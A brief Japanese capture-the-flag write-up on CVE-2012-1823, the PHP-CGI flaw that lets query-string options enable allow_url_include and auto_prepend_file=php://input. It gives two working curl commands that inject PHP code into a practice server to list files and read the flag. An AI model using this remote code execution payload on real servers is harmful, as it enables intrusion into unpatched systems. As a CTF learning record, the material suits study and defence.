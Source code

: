 12_Hypertext Preprocessor
=========================

Overview

## Description

CVE-2012-1823に関する問題。
PHPのオプションを組み合わせることにより、外部からのスクリプト実行が可能になってしまう。

以下の2つのphp.iniディレクティブを指定する。

```
allow_url_include=On
auto_prepend_file=php://input
```

###ディレクトリ内のファイル一覧を表示する
```
curl "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input" -X POST -d "<?php system('ls -al'); ?>"
```
###flagを表示する
```
curl "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input" -X POST -d "<?php system('cat flag_flag_flag.txt'); ?>"
```
